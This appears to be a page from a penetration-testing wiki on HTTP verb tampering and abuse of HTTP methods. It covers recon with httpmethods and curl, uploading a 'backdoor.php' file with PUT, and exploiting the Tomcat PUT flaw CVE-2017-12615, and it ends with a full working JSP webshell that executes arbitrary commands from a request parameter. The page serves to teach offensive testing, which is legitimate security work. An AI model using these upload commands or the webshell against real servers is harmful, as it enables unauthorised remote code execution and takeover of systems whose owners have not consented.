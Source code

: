 ```yaml
---
authors: 'KenjiEndo15, ShutdownRepo, fransosiche, p0dalirius'
category: web
---
```


# HTTP methods

## Theory

### Verb tampering

Some websites filter access to resources but fail at filtering out all HTTP methods. When an attacker tries to access a resource with different methods (GET, POST, HEAD, etc.) to bypass the access control, this is called HTTP verb tampering.

### Methods abuse

Some HTTP methods can be used for malicious purposes: `PUT`, `DELETE`, etc. The HTTP methods abuse is not aimed at gaining access to a specific page like verb tampering but more like what methods are accepted by the server and how can an attacker profit from those.

## Practice

### Recon

Testing for HTTP verb tampering and method abuse can be done with [httpmethods](https://github.com/ShutdownRepo/httpmethods).

```bash
httpmethods -u "https://target.url/"
httpmethods -u "https://target.url/restricted_page"
```

A manual HTTP request with the `OPTIONS` method can also be used to enumerate what methods are supported. This works if the `OPTIONS` methods is allowed in the first place.

```bash
curl --include --request OPTIONS "https://target.url/"
```

### Abusing the `PUT` method

The `PUT` method can be used to upload arbitrary files. Some directories have different rights, it can be useful to test the method on a wide range of directories.

```bash
curl --include --upload-file "backdoor.php" "https://target.url/"
```

### Apache Tomcat JSP PUT - CVE-2017-12615

Abusing the `PUT` method also applies to CVE-2017-12615: When running Apache Tomcat 7.0.0 to 7.0.79 on Windows with HTTP PUTs enabled (e.g. via setting the read-only initialization parameter of the Default to false) it was possible to upload a JSP file to the server via a specially crafted request. This JSP could then be requested and any code it contained would be executed by the server.

Exploitation of this vulnerability can be achieved manually by creating a `.jsp` file and by uploading it to the target server.


```java
<% out.write("<html><body><h3>JSP upload successfully</h3></body></html>"); %>
```


```bash
curl --include --upload-file "test.jsp" "https://target.url/"
```

If the upload is successful, the following JSP webshell ([source](https://github.com/tennc/webshell/blob/master/fuzzdb-webshell/jsp/cmd.jsp)) can then be uploaded to attempt at execute arbitrary commands on the remote server.


```java
<%@ page import="java.util.*,java.io.*"%>
<HTML><BODY>
<FORM METHOD="GET" NAME="myform" ACTION="">
<INPUT TYPE="text" NAME="cmd">
<INPUT TYPE="submit" VALUE="Send">
</FORM>
<pre>
<%
if (request.getParameter("cmd") != null) {
        out.println("Command: " + request.getParameter("cmd") + "<BR>");
        Process p = Runtime.getRuntime().exec(request.getParameter("cmd"));
        OutputStream os = p.getOutputStream();
        InputStream in = p.getInputStream();
        DataInputStream dis = new DataInputStream(in);
        String disr = dis.readLine();
        while ( disr != null ) {
                out.println(disr); 
                disr = dis.readLine(); 
                }
        }
%>
</pre>
</BODY></HTML>
```
